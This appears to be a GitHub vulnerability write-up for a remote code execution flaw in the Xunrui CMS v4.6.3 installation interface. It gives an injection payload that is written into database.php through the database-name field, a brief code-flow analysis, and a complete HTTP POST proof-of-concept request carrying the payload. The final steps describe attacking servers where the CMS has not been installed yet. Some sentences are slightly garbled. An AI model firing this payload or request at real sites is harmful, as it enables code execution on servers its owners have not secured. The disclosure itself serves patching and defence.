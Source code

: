 # xunruicms_rce
The RCE is connected through the CMS installation interface
# Xunrui CMS Installation Vulnerability

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)

## Payload:
``` exp;-- ---'];phpinfo();['```

###Vulnerability Reproduction:
Normal installation of .database.php
During installation, the process immediately jumps to step 3.
File After Successful Exploitation:
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%871.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%872.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%873.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%874.png)
The file after exploitation shows how the vulnerability is exploited.

#Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']
However, bypassing the database creation query is required.

###Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE
Thus, the exploit is:
```exp;-- ---'];phpinfo();['```
###Dynamic Analysis:
If the SQL query is successfully executed, the rest of the process proceeds smoothly.
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php
###Proof of Concept (PoC):
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

###Reproduce the Issue:
1.Remotely connect to the attacker's database.
2.The other party did not install the CMS, and did not generate the lock file.
